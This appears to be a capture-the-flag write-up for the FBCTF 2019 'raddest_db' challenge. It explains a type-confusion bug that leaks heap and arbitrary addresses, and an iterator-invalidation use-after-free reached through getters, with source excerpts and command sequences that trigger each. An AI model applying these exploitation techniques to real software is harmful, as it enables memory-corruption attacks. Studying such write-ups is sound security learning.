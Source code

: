 raddest_db
---

Exploit this database server.




Vulnerabilities
---
```
$ checksec raddest_db
[*] '/home/n/fbctf-2019/pwnables/raddest_db/raddest_db'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

1. InfoLeak: Type Confusion when storing typed objects.

Objects can be of type String, Integer, or Float. With the `store`  command.

```
>>> store db string 1 aaaa
```

When an object is stored for the first time, that index in the database is now of that type.
The next time an object is stored, the element attribute is updated using the new object

```c++
void RaddestDBDatabase::StoreStringElement(uint32_t key, const char *value) {
  auto it = backing_store_->find(key);

  if (it == backing_store_->end()) {
    StringElement *new_element = new StringElement(value);
    StoreElement(key, new_element);
  } else {
    StringElement *old_element = reinterpret_cast<StringElement *>(it->second);

    size_t len = strnlen(value, 1024);
    char *new_value = new char[len + 1];
    memset(new_value, 0, len + 1);
    strncpy(new_value, value, len);

    old_element->element = new_value; <---
  }
}
```

So if a float is stored in an index and then it is updated to a string the object will object
will be treated as a float in all operations like getting the value of the float.

```
>>> store db float 1 1.1
>>> store db string 1 bbbb
>>> get db 1
4.6724572784052174782247859363579e-310
```

Float -> String can be used to leak the address of the `char *` pointers that back the string.
This is a heap leak.

String -> Float can be used to leak any arbitrary address that can be represented as an IEEE754
floating point value.

```
>>> store db string 1 aaaa
>>> store db float 1 4.6724572784052174782247859363579e-310
>>> get db 1
bbbb
```

2. Code Execution: Iterator invalidation vtable dereference

Users can define getters on certain indexes. These getters have callbacks that are executed
after the index is retrieved.

Example of Getters being used internally in the `RaddestDBDatabase::Get(key)` method

```c++
void RaddestDBDatabase::Get(uint32_t key) {
  ArrayElement *element = GetArrayElement(key);
  if (element == NULL) return;
  element->print();
  CallGetters(key);
}
```

This usage is safe. Now here is CallGetters being called in the PrintElements function within a loop.

```c++
void RaddestDBDatabase::PrintElements(void) {
  int count = 0;
  for (auto it = backing_store_->begin(); it != backing_store_->end(); ++it) {
    it->second->print();
    CallGetters(it->first); <----
  }
}
```

A getter can modify backing store in the middle of the iteration, leading to the iterator being
invalidated
  * https://www.geeksforgeeks.org/iterator-invalidation-cpp/

```
>>> store db float 1 1.1
>>> store db float 2 1.1
>>> store db float 3 1.1
>>> store db float 4 1.1
>>> store db float 5 1.1
>>> store db float 6 1.1
>>> store db float 7 1.1
>>> store db float 8 1.1
>>> getter db float 5 5
[getter]: empty
[getter]: store db float 10 AAAAAAAAAAAAAAAAAA
[getter]: store db float 10 AAAAAAAAAAAAAAAAAA
[getter]: store db float 10 AAAAAAAAAAAAAAAAAA
[getter]: echo done
>>> printn
(Segmentation fault)
```

Iterator invalidation results in UAF so the `it->second->print()` can result in arbitrary vtable
dereference.
  * https://bugzilla.mozilla.org/show_bug.cgi?id=1321066
